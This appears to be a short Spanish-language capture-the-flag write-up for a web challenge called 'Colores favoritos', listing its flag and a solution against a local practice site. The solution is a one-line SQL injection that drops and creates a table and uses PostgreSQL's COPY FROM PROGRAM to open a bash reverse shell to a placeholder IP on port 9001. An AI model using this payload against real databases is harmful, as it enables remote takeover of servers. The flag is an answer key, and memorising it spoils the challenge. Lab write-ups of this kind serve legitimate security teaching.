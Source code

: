 # Nombre: `Colores favoritos`
### Dificultad: `Extreme (🃏🃏🃏🃏🃏)`
### Categoría: `web`
### Autor: [a-maccormack](https://github.com/a-maccormack)
### Flag: `DCCTF{1_c4n_3v3n_sh3ll_ur_db!}`

## Descripción
Mismo sitio, mismo input, más difícil. Ya no basta con conseguir la contraseña de admin. Debes conseguir una shell en el servidor de la base de datos.

`http://127.0.0.1:3000`

## Solución
El sitio no tiene ningún tipo de Web-App-Firewall (WAF), por lo que es posible escribir en la base de datos y desde ahí spawnear una shell.
Seteando un listener en el puerto 9001, y siendo x.x.x.x nuestra ip accesible públicamente, se puede obtener una shell con la siguiente inyección:
`admin';DROP TABLE IF EXISTS pwn;CREATE TABLE pwn(data text);COPY pwn FROM PROGRAM 'bash -c "bash -i >& /dev/tcp/x.x.x.x/9001 0>&1"';--`

